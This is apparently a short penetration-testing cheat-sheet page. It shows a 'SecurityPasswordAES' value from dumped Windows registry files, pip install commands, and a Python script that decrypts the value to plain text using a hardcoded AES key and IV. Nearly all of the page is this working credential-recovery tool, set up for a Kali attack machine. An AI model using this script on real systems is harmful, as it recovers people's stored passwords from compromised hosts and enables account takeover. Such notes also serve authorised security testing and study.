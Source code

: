 From dumped reg files:

"SecurityPasswordAES"=hex:2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10

Place above value into hex_str_cipher below:

```bash - kali
pip3 install hexdump
```

```bash - kali
pip3 install pycrypto
```

```python - kali
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# Hex Cipher String
hex_str_cipher = "2C0FFF76CA03D7C21C0D3C8B55EDD8DE37F89720AE6ED382D0AD2E70F97EFFEA0B0C1CD901CBD1AD90FC601B9E40FC9C4BAF65EEC51962EB4EDACC7C30A8A66B0CBD9F362AC0CAD1598904AECB8B9610"

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)

```

